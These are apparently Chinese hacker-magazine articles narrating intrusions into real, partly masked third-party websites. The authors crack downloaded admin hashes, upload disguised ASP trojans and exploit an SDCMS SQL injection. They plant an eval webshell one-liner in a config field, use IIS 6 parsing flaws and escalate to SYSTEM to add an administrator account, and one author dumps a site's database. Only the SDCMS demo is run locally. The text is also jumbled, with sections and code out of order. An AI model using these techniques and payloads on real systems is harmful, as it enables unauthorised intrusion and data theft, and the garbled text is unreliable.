待检测的目标网站是 www.sndxxx.com（老规矩，已作处理），先在 360 浏览器中打开看几眼，没想到看了第一眼就傻眼了：.html。完了，储备很长时间的各种“注入”方法和技巧不都毫无用武之地了么？不过转而一想，这么大型的网站，没道理不存在漏洞吧（啥逻辑啊这是^_^）？把域名先扔“114best”（http://www.114best.com/ip/）侦察一番，得到 IP 是 202.8.1xx.26，并且得知同 IP 服务器站点数为 9 个，难道要走“旁注”之路？且慢，再把这 IP 扔 X-Scan 中狂扫一下，看看能不能扫出个空/弱口令或是感兴趣的端口什么的，结果很失望，没什么可利用的。再到 http://tool.chinaz.com/port“站长之家”测试它的几个敏感端口，结果与 X-Scan 的报告基本吻合，只有 80、8080、21 和 3389 共四个端口开放（如图1），无非是最为常见的 www 网页浏览、FTP 文件传输和远程桌面服务。


图1

忽然想起 wwwScan 这个网站目录扫描工具来，我用的是图形界面带超强字典版本（下载地址：http://u.115.com/file/c179ehoi#）。解压缩之后双击运行其中的 wwwscan_gui.exe，在“wwwscan—GUI”界面中将目标网站域名粘贴到“网址”处，其它的都采用默认设置，点击“开始”按钮即可。由于它所带的 cgi.list 字典文件内容比较多，因此扫描所花费的时间能稍微长一些，不过在它扫描的过程中我们就可以根据得到的信息来进行其它的入侵步骤。注意：wwwScan 扫描返回的结果（Found:）中只有带“<HTTP/1.1 200 OK>”后缀字样的才是可以正常访问的，其它的像是“<HTTP/1.1 403 Forbidden>”和“<HTTP/1.1 500 Internal Server Error>”之类的信息是禁止访问的。工夫不大，wwwScan 扫描出了个“http://www.sndxxx.com/admin/ewebeditor/”（如图2），经常看《X》的叉子们肯定会对这个 ewebeditor 比较眼熟吧？这个在线编辑器的漏洞还是有不少的（参见“Ewebeditor 漏洞整理”：http://icemaple810.blog.163.com/blog/static/1421431200942155519854/），一看资料，头有点儿大，还是直接到浏览器中看看它的“庐山真面目”吧！


图2

真晕，竟然直接看到了目标网站的目录（如图3），这可真是个天大的好消息啊！点击“转到父目录”，后台出来了：http://www.sndxxx.com/admin/（如图4）……说明肯定存在 admin 这个账号！


图3


图4

### 2. “溯雪”上阵暴破，失败

后台有了，账号名 admin 也被证实，此时应该做点儿什么呢？……运行“溯雪”，设置 loginname=admin，password 使用字典暴破（comm.dic、English.Dic、Normal.dic、password.Dic、Words.dic）……最终“溯雪”还是败下阵来，此路不通。


图5

### 3. 关于 robots.txt 和 bdunion.txt 的两个小插曲

回头再看 wwwScan 的扫描，发现扫出 robots.txt 和 bdunion.txt 两个文本文件……

它是搜索引擎访问网站时要查看的第一个文件……访问 http://www.sndxxx.com/robots.txt，发现“robots.txt for PHP168 CMS”及“/admin”“/upload_files”等目录（如图6）。

继续访问 http://www.sndxxx.com/bdunion.txt，出现 32 位字符串“18c22e-23d7501e21c179a90c7ac5209f”（如图7）……尝试 MD5 在线破解均失败，后来得知其为网站申请联盟验证文件。


图6


图7

想想也对啊，虽然目前还没得到很多有价值信息，但至少发现了目标网站目录暴露与配置问题，这也增强了继续渗透检测的信心。

### 4. 从目录暴露下手，下载数据库，碰壁

虽然“溯雪”暴破 admin 密码失败，但通过 wwwScan 扫描路径意外发现目录暴露……进入 http://www.sndxxx.com/zt/dayu/data/，发现数据库文件“#dayu.mdb”（如图8），下载后用 Access 打开，发现两个用户……对应 MD5 密码等信息。

（破解后是“123”）；这第二个正是 admin，MD5 密码是“8ad9902aecba32e2”，破解后是“000000”，后面貌似还有管理员的真实姓名！


这下好了，搞到了 admin 的密码（000000），赶快再到 http://www.sndxxx.com/admin/index.php 尝试登录吧！未曾料想，还是不让进……再到 http://www.sndxxx.com/do/login.php 登录时又被提示“密码不正确，点击重新输入”（如图10），虽然在这儿看到了“Powered by PHP168 V6.01 Code? 2003-07 PHP168CMS”等信息，但百度之后发现并没有什么利用价值，碰壁。


### 5. 再从目录暴露下手，碰壁之后终入“后台”

还是接着在目录中狂翻吧，呵呵，找到 http://www.sndxxx.com/zt/dayu/edit/admin/login.asp，一访问发现是 eWebEditor，放弃。再到 http://www.sndxxx.com/zt/dayu/upfile/ 目录，有 UpFile.asp 和 UpLoad.asp 两个上传文件，点击第二个访问 http://www.sndxxx.com/zt/dayu/upfile/Upload.asp，终于出现了上传页面，赶快找个 ASP 马试着上传一下，结果被提示“文件格式不对，请选择：doc,xls,pdf,ppt,txt,rar,zip 格式的文件！”（如图11）。

……很失望，因为不是提示“只允许 JPG”之类的图片文件，不太习惯。继续找后发现 http://www.sndxxx.com/zt/dayu/uploadfile/ 目录中有好多的 JPG 图片文件，而且最下面有两个最新的大小一样的 JPG 和 GIF 图片文件，该不会是“图片马”吧？点击一下，果然是（如图12）！一个加密的【宝宝资源网P美化黑色版小马】，这个被入侵的信号极大地刺激到了我，因为很快就能找到可以上传 JPG 图片文件的链接了……那就是 http://www.sndxxx.com/zt/dayu/upnic/Upload.asp！


将刚才的 ASP 木马修改扩展名为 JPG，上传，这回成功了（如图13）！再到 http://www.sndxxx.com/zt/dayu/uploadfile/ 目录中查看，时间、文件大小等信息都对号（如图14），说明上传无误而且未被杀。接着构造 http://www.sndxxx.com/zt/dayu/uploadfile/201182110101481660.jpg 进行访问，返回的内容与之前查看别人的图片网马一样（如图15），显示的是文本内容，说明这个地址完全正确。现在的问题是——数据库备份在哪儿呢？

行，永远地成为了“可远观而不可亵玩焉”的文本型 JPG 图片马！


由于只是找到了上传文件的页面而不是进入到了真正的管理后台，所以寻找数据库备份根本就无从谈起。于是我接着翻，进入了 http://www.sndxxx.com/zt/dayu/adminmanage/ads/ 目录（如图16），点击第一个“adv_pic.asp”，哈哈，又一个“管理员登录”界面！都到这一步了，再尝试一下总不会错的，直接使用账号 admin 和密码 000000 进行尝试登录（如图17），点击“登录”按钮之后终于见到了网站管理的后台界面（如图18）！原来，之前通过下载数据库并破解 MD5 密码得到的账号所对应的真正后台登录地址是 http://www.sndxxx.com/zt/dayu/adminmanage/ads/adv_pic.asp。

#### 6. 冲不破黎明前的黑暗

入侵检测进行到这一步，似乎离拿到 WebShell 仅一步之遥了，但新的问题很快出现——虽然在“基本设置”中找到了“数据库备份”（如图19），非常标准的界面，只是“当前数据库路径”中的“../../data/#dayu.mdb”竟然无法被修改，不能用之前刚刚上传的 JPG 格式木马所替代（“../../uploadfile/201182110101481660.jpg”）！这样自己的网马就无法被备份成 ASP 格式了，也就无法被解析执行。

狂晕之下，以“当前数据库路径 不可更改”为关键字 Google 一下，第一个搜索结果（http://www.hackseo.net/post/113.html）就是这个问题的答案（《动网8.1之后台获取 Webshell 大法》），作者是 hackest [H.S.T]，而且是已发表在《黑客X档案》2008年第2期杂志上。小菜我大体看了一下，头又有些大了，还是先放弃吧，等有机会啃一下相关的技术文章之后再来吧！最后忽然又想起之前扫到该网站开有 21 和 3389 端口，于是分别再用账号 admin 和密码 000000 进行 FTP 和远程桌面登录，很不幸，都失败了。

OK，一次不成熟的尝试入侵检测就到这儿了，一路上磕磕绊绊，跟头摔了不少，不过也算得上是终有所获了，进入了管理员后台。真像那位哲学家所讲的那样——接触得越多，不明白的地方也越多（大体就这意思哈）；同时还深深体会到看人家的文章是一回事，自己亲自动手做则是另外一回事，这就是所谓的“看花容易绣花难”。最后，祝各位叉子好好学习，天天向上！

> （本文中涉及的相关软件本期光盘已收录）

### SDCMS 1.3 最新漏洞

txcbg

2011年10月3日，ID 为鬼哥的朋友公布了 SDCMS 1.3 的一个严重安全漏洞，并且给出了漏洞利用程序。我第一时间在虚拟机里测试漏洞可用，介绍给大家。

SDCMS（时代网站信息管理系统）是在 Asp+Access/Mssql 环境下开发的开源产品。SDCMS 以信息为主题，通过以文字和图片标题为起点，以无限栏目分类为支撑，配合多项插件的灵活使用，以达到信息门户的远景！

SDCMS 以安全第一为原则，解决了 ASP 程序的常见漏洞问题。程序自身无任何后门，严格的代码过滤为网站的安全运行提供了可靠的保障。

以上是 SDCMS 官方对它的介绍。是否真的“严格的代码过滤为网站的安全运行提供了可靠的保障”呢？鬼哥公布的漏洞再次证明了没有绝对的安全。

#### 一、漏洞简单分析

存在漏洞的文件是后台登录文件 Admin 目录下的 Index.asp，验证登录的代码为：

```asp
Sub Check
Dim username,password,code,getcode,Rs
If CheckPost Then Echo "*禁止从外部提交数据" : Exit Sub
username=FilterText(Trim(Request.Form("username")),1)
password=FilterText(Trim(Request.Form("password")),1)
code=Trim(Request.Form("yzm"))
getcode=Session("SDCMSCode")
If errnum=loginnum Then Echo "系统已禁止登录" : Died
If code="" Then Alert "验证码不能为空" : javascript:history.go(-1) : Died
If code<>"" And Not Isnumeric(code) Then Alert "验证码必须为数字" : javascript:history.go(-1) : Died
If code<>getcode Then Alert "验证码错误" : javascript:history.go(-1) : Died
If username="" or password="" Then
  Echo "用户名或密码不能为空" : Died
Else
  Set Rs=Conn.Execute("Select ...")
id,sdcms_name,sdcms_pwd,isadmin,alllever,infolever from Sd_Admin Where sdcms_name='" & username & "' And sdcms_pwd='" & md5(password) & "'
If Rs.eof Then
  AddLog username,GetIp
  Echo "用户名或密码错误，今日还有" & loginnum-errnum & "次机会"
Else
  AddCookies "sdcms_id",Rs(0)
  AddCookies "sdcms_name",username
  AddCookies "sdcms_pwd",Rs(2)
  AddCookies "sdcms_admin",Rs(3)
  AddCookies "sdcms_alllever",Rs(4)
  AddCookies "sdcms_infolever",Rs(5)
  Conn.Execute("Update Sd_Admin Set logintimes=logintimes+1,LastIp='" & GetIp & "' Where id='" & Rs(0) & "'")
  AddLog username,GetIp
  '自动删除30天前的Log记录
  If Sdcms_Datatype Then
    Conn.Execute("Delete From Sd_log Where DateDiff('d',adddate,Now())>30")
  Else
    Conn.Execute("Delete From Sd_log Where DateDiff(d,adddate,GetDate())>30")
  End If
  Go("sdcms_index.asp")
End If
Rs.Close
Set Rs=Nothing
End If
End Sub
```

## 一个人的战争

我们可以看到，username 是通过 FilterText 来过滤的。我们看看 FilterText 的代码。FilterText() 函数的代码在 Inc 目录下的 Function.asp 文件中，具体代码为：

```vb
Function FilterText(ByVal t0, ByVal t1)
    IF Len(t0)=0 Or IsNull(t0) Or IsArray(t0) Then FilterText="" : Exit Function
    t0=Trim(t0)
    Select Case t1
        Case "1"
            t0=Replace(t0,Chr(32),"&nbsp;")
            t0=Replace(t0,Chr(13),"")
            t0=Replace(t0,Chr(10)&Chr(10),"<br>")
            t0=Replace(t0,Chr(10),"<br>")
        Case "2"
            t0=Replace(t0,Chr(8),"")
            t0=Replace(t0,Chr(9),"")
            t0=Replace(t0,Chr(10),"")
            t0=Replace(t0,Chr(11),"")
            t0=Replace(t0,Chr(12),"")
            t0=Replace(t0,Chr(13),"")
            t0=Replace(t0,Chr(22),"")
            t0=Replace(t0,Chr(32),"")
            t0=Replace(t0,Chr(33),"")
            t0=Replace(t0,Chr(34),"")
            t0=Replace(t0,Chr(35),"")
            t0=Replace(t0,Chr(36),"")
            t0=Replace(t0,Chr(37),"")
            t0=Replace(t0,Chr(38),"")
            t0=Replace(t0,Chr(39),"")
            t0=Replace(t0,Chr(40),"")
            t0=Replace(t0,Chr(41),"")
            t0=Replace(t0,Chr(42),"")
            t0=Replace(t0,Chr(43),"")
            t0=Replace(t0,Chr(44),"")
            t0=Replace(t0,Chr(45),"")
            t0=Replace(t0,Chr(46),"")
            t0=Replace(t0,Chr(47),"")
            t0=Replace(t0,Chr(58),"")
            t0=Replace(t0,Chr(59),"")
            t0=Replace(t0,Chr(60),"")
            t0=Replace(t0,Chr(61),"")
            t0=Replace(t0,Chr(62),"")
            t0=Replace(t0,Chr(63),"")
            t0=Replace(t0,Chr(64),"")
            t0=Replace(t0,Chr(91),"")
            t0=Replace(t0,Chr(92),"")
            t0=Replace(t0,Chr(93),"")
            t0=Replace(t0,Chr(94),"")
            t0=Replace(t0,Chr(95),"")
            t0=Replace(t0,Chr(96),"")
            t0=Replace(t0,Chr(123),"")
            t0=Replace(t0,Chr(124),"")
        Case Else
            t0=Replace(t0,"&","&amp;")
            t0=Replace(t0,"'","&#39;")
            t0=Replace(t0,"\"","&#34;")
            t0=Replace(t0,"<","&lt;")
            t0=Replace(t0,">","&gt;")
    End Select
    If InStr(LCase(t0),"expression")>0 Then
        t0=Replace(t0,"expression",...)
    End If
    FilterText=t0
End Function
```

看到没，直接参数是 1，只过滤了 HTML 语句，并没过滤 SQL 语句，直接导致 SQL 注入危害极大。漏洞导致可以直接拿到后台账号密码。特别注意：以上漏洞分析是漏洞公布者鬼哥给出的，这里直接引用了。

#### 二、漏洞利用

漏洞分析有兴趣的慢慢看，下面来看怎样利用这个漏洞。为了演示漏洞的利用过程，我从 SDCMS 的官方网站下载了 sdcms1.3(20110129)（最新版本）的源代码，在虚拟机中把网站运行了起来，网站访问地址为：http://127.0.0.1/Index.Asp，如图1。

漏洞的利用很简单，鬼哥直接给出了漏洞利用工具。利用漏洞利用工具填上目标网站的后台地址后可以直接进入后台。解压下载回来的漏洞利用程序，运行 sdcms1.3 最新漏洞利用程序.exe，会出来几个提示注册漏洞利用程序所需 DLL 文件的对话框，点“确定”按钮关闭对话框后就打开了如图2的程序界面。在“输入目标后台地址”下面的输入框中输入目标网站的后台地址，这里我输入虚拟机中演示网站的后台地址 http://127.0.0.1/admin；点“GET后台”按钮，会出来验证码输入的对话框，并在漏洞利用程序当前目录下生成 yzm.jpg，打开 yzm.jpg，就看到了验证码，如图3。输入 yzm.jpg 中的验证码后点验证码输入对话框中的“OK”按钮后就进入了后台，如图4。


图1


图2


图3

如果一次进入后台不成功的话，多试几次很可能就好了。

### 三、后台拿 shell

进了后台好，能在后台拿到 shell 就更好了。发现在“系统管理”下的“系统设置”中的“上传设置”可以设置允许上传文件的类型，尝试添加 asp 格式的上传类型，点“保存设置”按钮后虽然提示“系统设置保存成功！”，但再打开“系统管理”下的“系统设置”中的“上传设置”，发现 asp 格式并没有添加进去，如图5。又尝试了几次，还是那样，估计是过滤了 asp 的格式，再试了添加 asa、cer、cdx 格式，也不能成功保存。

传文件的地址 /UpFile.asp/201110/2011100649154453.jpg，如图6。用 lake2 的 eval 最小马发送端连接 http://127.0.0.1//UpFile.asp/201110/2011100649154453.jpg，成功获得 shell，如图7。


上面的方法虽然能获得 shell，但要求 Web 服务器软件必须是 IIS 6.0，利用的是 IIS 6.0 的解析漏洞。尽管现在网络上支持 ASP 的服务器上安装的 Web 服务器软件绝大多数是 IIS 6.0，但还有少数是 IIS 5.0 以及越来越多的 IIS 7.0，遇到这样的服务器就不能用上面的方法拿 shell 了。有没有通用拿 shell 的方法呢？


继续找别的方法。在“上传设置”中发现还能设置上传文件的保存目录，把原来的上传目录 UpFile 修改为 UpFile.asp，点“保存设置”后保存成功。点“信息管理”下的“信息添加”，在这里可以添加附件。点“添加附件”选择改名为 asp.jpg 的一句话木马，然后点“上传附件”，提示“文件上传成功”，点编辑器中的“源代码”按钮得到了上...


在鬼哥发布漏洞利用工具的帖子中的回帖中，有人说在允许上传的文件中添加 ASP 格式就可以获得 shell。难道没过滤大写的 ASP？马上在“上传设置”里添加 ASP 格式，保存设置，这次保存成功了，如图8。把上传目录改回原来的 UpFile，在“信息添加”中直接上传改名为 asp.ASP 的 ASP 一句话木马，得到上传后的文件为：`/UpFile/201110/2011100650642157.ASP`，如图9。用 lake2 的 eval 最小马发送端连接 `http://127.0.0.1/Up-File/201110/2011100650642157.ASP`，轻松获得 shell，如图10。这个获得 shell 的方法就通用了。

SDCMS 的这个漏洞影响最新版本 SDCMS 1.3，利用漏洞利用工具可以直接进入存在这个漏洞的网站的后台，进而获得 shell，危害性还是很大的。为了方便在本机测试这个漏洞，我把存在漏洞的 Sdcms1.3(20110129) 的源代码以及漏洞利用程序打包给大家了。


图10

写本文仅出于兴趣爱好，强烈建议只在本机测试这个漏洞，否则造成的任何后果与本人无关。

> （文中涉及的相关代码及程序本期光盘已收录）

## 记一次很蛋疼的入侵

saline

话说最近严打了，于是不敢再明目张胆地去裸奔练技术了，于是就找一些 VPN。虽然双面大神已教我怎么做了，但是不知道为什么总是掉得厉害。在网上淘各种免费的 VPN，找到一款名为“XXVPN”，据称还是免费的。看了点官方的介绍，感觉还可以，于是就下载回来准备使用，但是打开就报毒了……郁闷……以为是它有代理的那个文件，报毒没有管它，而是直接放过了。但是悲剧来了，晚上关机以后，今天开机打开任意一个 exe 文件都报毒了。更可恶的是，扔进虚拟机里面运行就直接关机了。悲愤之余，恰逢双面神说它的好评很差，还有个论坛。所以小菜觉得拿下它的论坛给它点利息。

于是就打开这个论坛，乍一看，怎么是 DZX2.0 的，如图1。这个可是如何才好，不管了，先看看是什么环境下的，直接开启 wwwscan 来一阵狂扫，看见服务器类型是 IIS6.0，如图2。


图2


图1


图3


图4

其作用就是跳转到 default.asp，直接删除，补充完 action 的有效路径，然后修改掉原来的数据库的位置为我们的图片木马的路径，然后保存为 xx.html，如图6。然后打开我们的 xx.html，现在的都是我们修改好了的，直接点击确定就可以显示出我们的路径了，如图7。


图6

心想要是是虚拟机就好了，那样就可以旁注了（好些网站就是死在旁注这把大刀下面，不容小视啊，主站再怎么安全，旁注到一个提权就惨了）。于是就打开 http://ip.iy8.net/ 这个网站，直接把域名输入“域名/IP地址”后，直接点击查询……

嘿嘿，看起来是有戏的，全部复制到 wwwscan 里面开启批量的扫描……分析分析下，或许可以得到一个 shell……直接的 admin，admin 就进入了后台，如图5。

第二种拿 shell 的方法也是在系统设置那里。选择网站配置，然后在允许的上传文件类型里添加 php 与 asa 在里面……如图8。


图7


图5


图8

然后我们点击确定，再到产品添加里面，最下面的产品图片那里选择添加图片，直接选择我们添加的文件类型，xx.php 或者 x.x.asa……

第三种拿 shell 的方法就是系统管理-网站配置，在版权信息里写入：

```asp
"%><%eval(request(chr(35)))%><%'
```

成功把 shell 写入 http://www.xx.com/inc/config.asp 这枚一句话，chr(32) 密码是“#”，然后使用菜刀去连接就可以了。

第四种就是使用编辑器的问题了，当我们点击添加产品以后就可以看见一个编辑框……已经很明显了，如图9。然后我们在浏览器上添加我们找到的编辑器的路径，如同类似的：

很直接的，很像是南方的后台。按道理说这种后台是很好拿 shell 的，应该我研究出四种方法拿到 shell。第一，就是系统设置里面备份，就是在产品添加时随便上传张图片木马……右键查看源码的时候发现顶部有代码如下：

```html
<script language="javascript">
<!--
if (window == top)top.location.href = "Default.asp";
//-->
</script>
```


图9

http://www.xxx.com/admin/Southidceditor/admin_style.asp 我们可爱的 ewebeditor 的样式管理，如图10。


图10

然后就是常规的样式修改，在图片上传类型处添加 asa、cer 和 asp 这样的类型，分别可以上传 asa、cer 和 asp 的文件类型，然后点击确定，再预览就可以了……找了许久，终于让我遇见了一个 SDCMS。呃，这个 CMS 不正是这段时间刚好十分热火的漏洞之一。（话说最近爆出的 0day 多了，欢喜了小菜我等，只是不知道是好是坏）该 CMS 后台，如图11。


图11

于是乎，马上打开百度去搜一下，找到了关于 SDCMS 0day 的信息，根据描述如下：

```vb
漏洞文件：后台目录/index.asp

Sub Check
    Dim username,password,code,getcode,Rs
    IF Check_post Then Echo "禁止从外部提交数据"
```

```vb
' ...
If ... Exit Sub
username = FilterText(Trim(Request.Form("username")),1)
password = FilterText(Trim(Request.Form("password")),1)
code = Trim(Request.Form("yzm"))
getcode = Session("SDCMSCode")
IF errnum>loginnum Then Echo "系统已禁止您今日再登录":died
IF code="" Then Alert "验证码不能为空!", "javascript:history.go(-1)":Died
IF code<>"" And Not Isnumeric(code) Then Alert "验证码必须为数字!", "javascript:history.go(-1)":Died
IF code<>getcode Then Alert "验证码错误!", "javascript:history.go(-1)":Died
If username="" or password="" Then Echo "用户名或密码不能为空":Died
Else
    Set Rs=Conn.Execute("Select id,Sdcms_Name,Sdcms_Pwd,isadmin,alllever,infolever From Sd_Admin Where Sdcms_name='"&username&"' And Sdcms_Pwd='"&md5(password)&"'")
    If Rs.Eof Then
        AddLog username,GetIp,"登录失败",1
        Echo "用户名或密码错误;今日还有"&loginnum-errnum&"次机会"
    Else
        Add_Cookies "sdcms_id",Rs(0)
        Add_Cookies "sdcms_name",username
        Add_Cookies "sdcms_pwd",Rs(2)
        Add_Cookies "sdcms_admin",Rs(3)
        Add_Cookies "sdcms_alllever",Rs(4)
        Add_Cookies "sdcms_infolever",Rs(5)
        Conn.Execute("Update Sd_Admin Set logintimes=logintimes+1,lastip='"&GetIp&"' Where id='"&Rs(0)&"'")
        AddLog username,GetIp,"登录成功",1
        ' 自动删除30天前的log记录
        IF Sdcms_DataType Then
            Conn.Execute("Delete From Sd_Log Where DateDiff('d',adddate,Now())>30")
        Else
            Conn.Execute("Delete From Sd_Log Where DateDiff(d,adddate,GetDate())>30")
        End IF
        Go("sdcms_index.asp")
    End IF
End IF
```

## 一个人的战争

我们可以看到 username 是通过 FilterText 来过滤的。我们看下 FilterText 的代码：

```vb
Rs.Close
Set Rs=Nothing
End IF
End Sub

Function FilterText(ByVal t0,ByVal t1)
    IF Len(t0)=0 Or IsNull(t0) Or IsArray(t0) Then FilterText="":Exit Function
    t0=Trim(t0)
    Select Case t1
        Case "1"
            t0=Replace(t0,Chr(32),"")
            t0=Replace(t0,Chr(13),"")
            t0=Replace(t0,Chr(10)&Chr(10),"")
            t0=Replace(t0,Chr(10),"")
        Case "2"
            t0=Replace(t0,Chr(8),"")
            t0=Replace(t0,Chr(9),"")
            t0=Replace(t0,Chr(10),"")
            t0=Replace(t0,Chr(11),"")
            t0=Replace(t0,Chr(12),"")
            t0=Replace(t0,Chr(13),"")
            t0=Replace(t0,Chr(22),"")
            t0=Replace(t0,Chr(32),"")
            t0=Replace(t0,Chr(33),"")
            t0=Replace(t0,Chr(34),"")
            t0=Replace(t0,Chr(35),"")
            t0=Replace(t0,Chr(36),"")
            t0=Replace(t0,Chr(37),"")
            t0=Replace(t0,Chr(38),"")
            t0=Replace(t0,Chr(39),"")
            t0=Replace(t0,Chr(40),"")
            t0=Replace(t0,Chr(41),"")
            t0=Replace(t0,Chr(42),"")
            t0=Replace(t0,Chr(43),"")
            t0=Replace(t0,Chr(44),"")
            t0=Replace(t0,Chr(45),"")
            t0=Replace(t0,Chr(46),"")
            t0=Replace(t0,Chr(47),"")
            t0=Replace(t0,Chr(58),"")
            t0=Replace(t0,Chr(59),"")
            t0=Replace(t0,Chr(60),"")
            t0=Replace(t0,Chr(61),"")
            t0=Replace(t0,Chr(62),"")
            t0=Replace(t0,Chr(63),"")
            t0=Replace(t0,Chr(64),"")
            t0=Replace(t0,Chr(91),"")
            t0=Replace(t0,Chr(92),"")
            t0=Replace(t0,Chr(93),"")
            t0=Replace(t0,Chr(94),"")
            t0=Replace(t0,Chr(95),"")
            t0=Replace(t0,Chr(96),"")
            t0=Replace(t0,Chr(123),"")
            t0=Replace(t0,Chr(124),"")
            t0=Replace(t0,Chr(125),"")
            t0=Replace(t0,Chr(126),"")
        Case Else
            t0=Replace(t0,"&","&amp;")
            t0=Replace(t0,"'","&#39;")
            t0=Replace(t0,"\"","&#34;")
            t0=Replace(t0,"<","&lt;")
            t0=Replace(t0,">","&gt;")
    End Select
    IF Instr(lcase(t0),"expression")>0 Then
        t0=Replace(t0,"expression","e&#173;xpression",1,-1,0)
    End If
    FilterText=t0
End Function
```

看到没，直接参数是 1，只过滤：t0=Replace(t0,Chr(32),"&nbsp;")、t0=Replace(t0,Chr(13),"")、t0=Replace(t0,Chr(10)&Chr(10),"<br>")、t0=Replace(t0,Chr(10),"<br>")。

并没过滤 SQL 语句，直接导致 SQL 注入，危害极大。默认后台地址 /admin/，可怜的小菜并不会怎么构造 SQL 注入的语句，构造了许久没有成功，于是去群里面请教那些会构造的传授些经验，可惜没有人搭理小菜。后来某个大牛看不下去了，直接丢了个 tools 出来，嗯，好像是漏洞发布的作者鬼哥写的 EXP。直接打开看看，很方便，简洁，如图12。


图12

于是直接输入 http://www.xxx.com/admin/，然后点击 get 后台，会跳出个输入验证码的框出来，输入我们可见的验证码，如图13。

点击 OK，等待小会；直接就出现进入后台了，如图14。这个真的不愧是 0day 啊！


图13


图14


图15


图16


图17

接下来的就是要拿 shell 了，这里我是事先知道了是 iis6，可以配合解析漏洞来获得 shell。我的思路是将图片木马上传到我们的 xx.asp 文件里面去，于是就直接去试试。于是进系统管理，选择系统设置，然后选择上传设置，在文件夹后面添加 .asp，就变成了 upfile.asp，然后确定。在上传我们的图片小马后，使用菜刀直接连接，成功获得 shell，然后丢个 asp 大马进去，探测下服务器或许有意想不到的结果。但是现在结果很让人失望，什么都检查不出来，但是感觉很像是县外的主机管理系统，如图17。

那么来查看下组件吧！也是很悲剧地发现 wscript.shell 被删除或者是禁止了。

- Scripting.FileSystemObject √ 文件操作组件
- wscript.shell × 命令行执行组件，显示
- ADOX.Catalog √ ACCESS 建库组件
- JRO.JetEngine √ ACCESS 压缩组件
- Scripting.Dictionary √ 数据流上传辅助组件
- Adodb.connection √ 数据库连接组件
- Adodb.Stream √ 数据流上传组件

在 ASP 里面提权好像是没有希望的了，想找 SA，找了许久也是没有找到，难道就这样放弃？这样不是我要的结果啊。然后又查看了下磁盘的信息，发现了：

- C:\windows 可读，不可写。
- C:\php 可读，不可写。
- C:\Documents and Settings 可读，不可写。
- C:\Program Files 可读，不可写。
- C:\wmpub 可读，可写。

要命的 C:\wmpub 居然可以读写，要是支持 wscript.shell 组件多好啊，太郁闷了。仔细盘点了下，目标站是 php 的，而这个站是 ASP 的，难不成还支持 ASPX？如果是支持 ASPX 的话，提权还是有希望的。不管了，直接丢了个 ASPX 大马进去，惊奇地发现被解析了。于是输入密码，试了试 cmd 命令发现被拒绝了，再去看看开启了哪些端口。在 ASPXSPY 里面扫了会，发现了如图18所示的端口。


图18

开启了 3389，就不用重杀去了，管理站的还真方便啊，嘿嘿。想到我们的 C:\wmpub 还可以读写，就直接把提权的必需品上传到 C:\wmpub 目录下面，如图19所示。


图19

然后跳转到 cmd 命令里面去，在 cmd 路径里面设置为 C:\wmpub\cmd.db。执行遇见的时候发现 net 和 net1 都被禁用了，想来可以自己自定义这个 net 的位置。先看看服务器的配置，在语句里面输入 systeminfo，加载服务器的信息，补丁啊，几个 CPU 啊，都可以显示的：

```text
系统类型：x86-based PC
处理器：安装了 2 个处理器
[01] x86 Family 6 Model 23 Stepping 10 GenuineIntel ~3200 Mhz
[02] x86 Family 6 Model 23 Stepping 10 GenuineIntel ~3200 Mhz
修补程序：安装了 237 个修补程序

[CISup] --> Found token SYSTEM
[*] Running command with SYSTEM token...
[*] Command: C:\wmpub\net.exe user
[+] Done, command should have ran as SYSTEM!
```

都是以 system 权限来运行了，接下来的事情就是添加个用户，并且提升为管理员，依次执行：

```text
/c "C:\wmpub\iis6.txt" "C:\wmpub\net.exe user hacckx hackerxfilest /add"
[*] Running command with SYSTEM token...
[*] Command: C:\wmpub\net.exe user hacckx hackerxfilest /add
[+] Done, command should have ran as SYSTEM!
// 添加账号 hacckx 了

/c "C:\wmpub\iis6.txt" "C:\wmpub\net.exe localgroup administrators hacckx /add"
[*] Running command with SYSTEM token...
[*] Command: C:\wmpub\net.exe localgroup administrators hacckx /add
```

```text
[+] Done, command should have ran as SYSTEM! // 把 hacckx 提升为管理员了

然后就是直接连接了，但是连接的时候出现错误了，回头来看开启了哪些服务

执行 /c "\"C:\wmpub\iis6.txt\" \"C:\wmpub\net.exe start\"" 后返回

已经启动以下 Windows 服务：

IISAdminMonitor
Application Experience Lookup Service
Automatic Updates
COM+ Event System
Computer Browser
Cryptographic Services
DCOM Server Process Launcher
DHCP Client
Distributed Link Tracking Client
DNS Client
Error Reporting Service
Event Log
Help and Support
HTTP SSL
IIS Admin Service
MSSQLSERVER
MySQL
Network Connections
Plug and Play
...
```

"C:\wmpub\net.exe stop policyagent" 执行成功以后就直接连接试了。


图20


图21

然后就是找网站的数据库，找到以后直接脱库，如图20、图21。然后就是……其他的就等着各位去想象了！

好了，本文结束。本人在 X 档案的 ID 是 saline，欢迎各位与小菜一起交流。

命令成功完成，然后在执行 /c ""C:\wmpub\iis6.txt"

### 忆一次不同寻常的“跨站”

txcbg

买了条裤子，发现裤子上有个铭牌，铭牌上有生产裤子的公司的网站地址。来了兴趣，看看网站的安全性如何，于是就有了一次不同寻常的“跨站”之旅。

### 一、目标站要整

网站的地址为 www.dxxxr.com.cn，网站程序是 ASP 的。用 WVS 扫出了后台登录地址 http://www.dxxxr.com.cn/2009/manage/，用弱口令 admin，admin 进入了后台，如图1。


图1

后台很简单，没找到能获得 webshell 的方法。在后台发现网站用的是 ewebeditor 编辑器，通过查看源代码发现 ewebeditor 编辑器的位置为 http://www.dxxxr.com.cn/2009/ewebeditor/，存在后台登录页面 http://www.dxxxr.com.cn/2009/ewebeditor/admin_login.asp，也存在数据库文件 http://www.dxxxr.com.cn/2009/ewebeditor/db/ewcbeditor.mdb，并且可以下载，如图2。本来以为到这里马上就可以拿到网站 webshell 了。但也许前面太顺利了，破解密码的时候出问题了，密码破解不出来！试了几个在线破解网站，密码都是未查到。利用 ewebeditor 编辑器获得 webshell 的方法行不通了。

asp，上传，居然提示上传成功，如图5。


目标网站还存在注入漏洞，但网站数据库是 Access 的，对拿 webshell 起不到作用。

### 二、旁注获得其它网站 webshell

目标站获得 webshell 受阻，来看下旁注。在 http://www.114best.com/ip/ 查询到目标网站所在服务器上共有 16 个网站，很可能有戏。一个一个地看服务器上的其它网站，在看到 http://www.zxxx8.com/ 时发现存在 cookie 注入漏洞，用最宽的刺猬的注入中转生成器 jmdcw 中转后用 pangolin 检测，竟然是 db_owner 权限的注入点，如图3。尝试了一下列目录，不能列。通过猜解获得了管理员的用户名 admin，密码 zxxx8，如图4。

